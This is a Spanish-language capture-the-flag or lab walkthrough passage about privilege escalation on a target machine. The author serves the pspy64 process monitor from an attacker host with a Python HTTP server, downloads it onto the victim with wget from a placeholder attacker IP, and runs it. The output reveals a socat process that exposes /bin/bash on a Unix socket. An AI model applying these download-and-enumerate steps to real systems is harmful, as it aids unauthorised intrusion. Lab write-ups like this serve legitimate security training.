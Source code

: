 Ahora vamos a escalar privilegios con un binario llamado pspy64 el cual descargaremos en la maquina host y nos lo pasaremos con un servidor de python3 y con la herramienta wget nos lo descargaremos en la maquina victima

    cd /usr/share/pspy ## Ruta en donde se encuentra el pspy en la maquina kali
    python3 -m http.server

    >>> Maquina Victima

    cd /tmp
    wget wget http://<ip maquina atacante>:8000/pspy64

Nos dara como resultado esto

    --2025-09-07 00:55:36--  http://<ip maquina atacante>:8000/pspy64
    Connecting to <ip maquina atacante>:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3518724 (3.4M) [application/octet-stream]
    Saving to: ‘pspy64’

    pspy64         0%       0  --.-KB/s          pspy64       100%   3.36M  --.-KB/s    in 0.001s  

Ahora vamos a ejecutarlo

    chmod +x pspy64
    ./pspy64

Nos dara como resultado

```
pspy - version: 1.2.1 - Commit SHA: kali

 ██▓███    ██████  ██▓███ ▓██   ██▓
▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                 ░           ░ ░     
                             ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/09/07 01:00:45 CMD: UID=1001  PID=1402   | ./pspy64                                  
2025/09/07 01:00:45 CMD: UID=1001  PID=677    | -bash                                     
2025/09/07 01:00:45 CMD: UID=1001  PID=676    | sshd: albert@pts/0                        
2025/09/07 01:00:45 CMD: UID=0     PID=665    | sshd: albert [priv]                       
2025/09/07 01:00:45 CMD: UID=33    PID=522    | /usr/sbin/apache2 -k start                
2025/09/07 01:00:45 CMD: UID=33    PID=508    | /usr/sbin/apache2 -k start                
2025/09/07 01:00:45 CMD: UID=33    PID=507    | /usr/sbin/apache2 -k start                
2025/09/07 01:00:45 CMD: UID=33    PID=503    | /usr/sbin/apache2 -k start                
2025/09/07 01:00:45 CMD: UID=33    PID=502    | /usr/sbin/apache2 -k start                
2025/09/07 01:00:45 CMD: UID=33    PID=495    | /usr/sbin/apache2 -k start                
2025/09/07 01:00:45 CMD: UID=33    PID=482    | /usr/sbin/apache2 -k start                
2025/09/07 01:00:45 CMD: UID=33    PID=475    | /usr/sbin/apache2 -k start                
2025/09/07 01:00:45 CMD: UID=33    PID=455    | /usr/sbin/apache2 -k start                
2025/09/07 01:00:45 CMD: UID=0     PID=57     | tail -f /dev/null                         
2025/09/07 01:00:45 CMD: UID=1002  PID=54     | socat UNIX-LISTEN:/home/conx/.cache/.sock,fork EXEC:/bin/bash                          
2025/09/07 01:00:45 CMD: UID=0     PID=50     | /usr/sbin/cron -P                         
2025/09/07 01:00:45 CMD: UID=0     PID=44     | sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups                                   
2025/09/07 01:00:45 CMD: UID=33    PID=31     | /usr/sbin/apache2 -k start                
```